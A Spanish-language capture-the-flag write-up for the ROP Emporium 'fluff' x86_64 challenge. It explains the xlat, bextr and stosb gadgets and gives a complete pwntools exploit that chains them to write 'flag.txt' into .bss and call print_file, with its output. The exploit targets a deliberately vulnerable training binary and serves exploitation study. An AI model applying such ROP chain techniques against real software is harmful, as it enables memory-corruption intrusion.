 Este ejercicio es prácticamente igual que [write4](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/4.-write4-x86_64) pero con una diferencia. La diferencia es que no tenemos ningún rop que haga un `mov DWORD ptr` con lo cual no podemos guardar `flag.txt` en el `.bss`. Como hacemos entonces? pues si miramos las funciones del binario vamos a poder ver lo siguiente:

{% code fullWidth="false" %}

```c
0000000000400628 <questionableGadgets>:
  400628:	d7                   	xlat   BYTE PTR ds:[rbx]
  400629:	c3                   	ret
  40062a:	5a                   	pop    rdx
  40062b:	59                   	pop    rcx
  40062c:	48 81 c1 f2 3e 00 00 	add    rcx,0x3ef2
  400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
  400638:	c3                   	ret
  400639:	aa                   	stos   BYTE PTR es:[rdi],al
  40063a:	c3                   	ret
  40063b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

{% endcode %}

Usando únicamente lo que hay en esta función podemos conseguir mandar al segmento de memoria `.bss` el string `flag.txt` de la siguiente manera:

Vamos a centrarnos en los 3 gadgets que nos van a hacer falta:

```c
400628:	d7                   	xlat   BYTE PTR ds:[rbx]
. . .
400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
. . .
400639:	aa                   	stos   BYTE PTR es:[rdi],al
```

Que es cada uno?

* `xlat`: Usa `AL` como índice usando como base `RBX` y guarda el resultado en `AL`, es decir: `AL = RBX[AL]`
* `stosb` escribe `AL` en `RDI` y luego incrementa `RDI`
* `bextr rbx, rcx, rdx`: Extrae una cantidad de bits de `RCX` a `RBX` usando `RDX` para indicar los bits y en que bits empieza.

Como lo usaríamos y en que orden? Este sería la manera en la que manipulariamos estos gadgets:

```c
1. Con bextr guardamos flag.txt en el rbp bit a bit
2. Con xlat y stosb pasamos flag.txt: RBX --> AL --> RDI
```

Vamos a necesitar como datos los siguientes:

{% code fullWidth="false" %}

```python
bss = exe.bss() # Primera dirección del BSS (asumimos que está vacío)
xlat = exe.symbols['questionableGadgets'] # Dirección a la función questionableGadgets
pop_rdx_rcx_add_bextr = 0x40062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr  rbx,rcx,rdx; ret
stos = 0x400639 # stos   BYTE PTR es:[rdi],al; ret
pop_rdi = 0x004006a3 # pop rdi; ret
print_file = exe.plt['print_file'] #Dirección de la función print_file en la  plt
al_antiguo = 0xb # Antes de llegar a nuestro rop el programa tiene esto en al. Se puede ver en GDB
blob = read(exe.path) # Con esto blob contiene todos los datos del binario y puede buscar caracteres en él.
flag = b'flag.txt'
```

{% endcode %}

Ahora que tenemos todos los datos podemos pasar al solve:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("fluff")
libc = ELF("libfluff.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    offset = 40  # hasta rip

    bss = exe.bss()
    xlat = exe.symbols['questionableGadgets']
    pop_rdx_rcx_add_bextr = 0x40062a
    stos = 0x400639
    pop_rdi = 0x004006a3
    print_file = exe.plt['print_file']

    al_antiguo = 0xb  # esto es lo que ya hay en al antes de llegar a nuestro rop
    blob = read(exe.path)
    flag = b'flag.txt'

    chain = b""

    for a, b in enumerate(flag):
        idx = blob.find(bytes([b]))
        assert idx != -1, log.failure(f"No hay ese char")
        
        # hay que restar lo que ya había en AL y el +0x3ef2 que mete el gadget
        rcx_val = exe.address + idx - al_antiguo - 0x3ef2

        chain += flat(
            pop_rdx_rcx_add_bextr,
            0x4000,         # rdx random grande para que copie todo
            rcx_val,        # rcx calculado
            xlat,           # mete el char en AL
            pop_rdi, bss + a,
            stos            # escribe el char en .bss
        )
        
        # ahora AL vale el último char que pillamos, hay que guardarlo para la siguiente vuelta
        al_antiguo = b

    # llamar a print_file con la dirección donde metimos flag.txt
    chain += flat(pop_rdi, bss, print_file)

    payload = flat(
        b"A" * offset,
        chain
    )

    io.sendlineafter(b'> ', payload)
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
